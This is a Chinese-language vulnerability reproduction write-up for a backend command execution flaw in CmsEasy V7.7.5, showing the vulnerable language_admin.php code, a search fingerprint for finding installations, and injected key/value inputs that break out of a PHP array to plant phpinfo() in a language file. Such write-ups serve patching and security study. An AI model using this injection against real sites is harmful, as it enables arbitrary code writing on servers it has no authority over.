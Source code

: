 # CmsEasy language_admin.php 后台命令执行漏洞

## 漏洞描述

CmsEasy 后台存在命令执行漏洞，通过文件 language_admin.php 对部分文件进行写入操作，导致任意文件写入

## 漏洞影响

```
CmsEasy V7.7.5_20210919
```

## 网络测绘

```
body="cmseasyedit"
```

## 漏洞复现

![image-20220518143113914](images/202205181433140.png)

存在漏洞的文件为 `lib/admin/language_admin.php`

![image-20220518143419336](images/202205181434423.png)

```
function add_action() {
        $lang_choice='system.php';
        if (isset($_GET['lang_choice'])){
            $lang_choice=$_GET['lang_choice'];
        }
        if (front::post('submit')) {
            $langid=front::get('id');
            $lang=new lang();
            $langdata = $lang->getrows('id='.$langid, 1);
            if (is_array($langdata)){
                $langurlname=$langdata[0]['langurlname'];
            }else{
                front::alert(lang_admin('language_pack').lang_admin('nonentity'));
            }
            $path=ROOT.'/lang/'.$langurlname.'/'.$lang_choice;
            $tipspath=ROOT.'/lang/'.$langurlname.'/'.$lang_choice;
            $content=file_get_contents($path);
            $tipscontent=file_get_contents($tipspath);
            $replace="'".front::$post['key']."'=>'".front::$post['val']."',";
            $tipsreplace="'".front::$post['key']."'=>'".front::$post['cnnote']."',";
            $content=str_replace(');',"\n".$replace.');',$content);
            file_put_contents($path,$content);
            $pos=strpos($tipscontent,$tipsreplace);
            if ($langurlname != 'cn'&&$pos === false) {
                $tipscontent=str_replace(');',"\n".$tipsreplace.');',$tipscontent);
                file_put_contents($tipspath,$tipscontent);
            }
            if ($_GET['site'] != 'default') {
                $ftp=new nobftp();
                $ftpconfig=config::get('website');
                $ftp->connect($ftpconfig['ftpip'],$ftpconfig['ftpuser'],$ftpconfig['ftppwd'],$ftpconfig['ftpport']);
                $ftperror=$ftp->returnerror();
                if ($ftperror) {
                    exit($ftperror);
                }
                else {
                    $ftp->nobchdir($ftpconfig['ftppath']);
                    $ftp->nobput($ftpconfig['ftppath'].'/lang/'.$langurlname.'/'.$lang_choice,$path);
                }
            }
            event::log(lang_admin('add_to').lang_admin('language_pack'),lang_admin('success'));
            //
            $shepi='<script type="text/javascript">alert("'.lang_admin('dosomething').lang_admin('complete').'");gotoinurl("'.url('language/edit/id/'.$langdata[0]['id'],true);
            $shepi=$shepi.'&lang_choice='.$lang_choice;
            $shepi=$shepi.'");</script>';
            echo $shepi;
            //exit;
            //front::refresh(url('language/edit',true));
        }
        $this->view->lang_choice=$lang_choice;
    }
```

访问这个页面

![image-20220518143447023](images/202205181434089.png)

其中参数有三个，分别为 `key , cnnote, val`

![image-20220518143502867](images/202205181435903.png)

传入参数后,查看 `lang/cn/system_custom.php` 文件中

```
<?php
/*
 *中文语言包
 */

return

array(


'2'=>'3',);
?>
```

由于没有对传入的参数进行过滤，通过写入特殊的参数就可以逃逸出数组造成命令执行

分别传入两次参数

```
test1  test2  test3);
```

写入后文件内容

```
<?php
/*
 *中文语言包
 */

return

array(

'test2'=>'test3);',);
?>
```

再传入一次参数

```
test4  ,test5, 	,phpinfo());/*
```

![image-20220518143515689](images/202205181435729.png)

写入后文件内容

![image-20220518143533909](images/202205181435970.png)

访问文件 `/lang/cn/system_custom.php`

![image-20220518143552076](images/202205181435144.png)